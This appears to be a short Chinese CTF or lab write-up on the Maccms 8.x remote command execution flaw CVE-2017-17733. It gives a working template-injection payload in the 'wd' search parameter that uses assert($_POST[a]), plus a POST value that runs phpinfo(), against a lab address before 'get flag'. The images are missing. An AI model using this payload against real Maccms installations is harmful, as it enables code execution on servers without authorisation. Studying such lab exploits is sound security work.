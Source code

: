 # maccms远程命令执行(CVE-2017-17733)
## 漏洞描述
Maccms是一套跨平台的基于PHP和MySQL快速建站系统。 Maccms 8.x版本中存在安全漏洞。远程攻击者可借助index.php?m=vod-search请求中的‘wd’参数利用该漏洞执行命令

## 影响版本
Maccms 8.x版本

## 利用流程
1.访问地址：118.193.36.37:15113

![image]()
2.访问存在漏洞地址 及post传值
```
/index.php?m=vod-search&wd={if-A:assert($_POST[a])}{endif-A}

```
post传值

```
a=phpinfo()
![image]()
```
3.get flag
![image]()
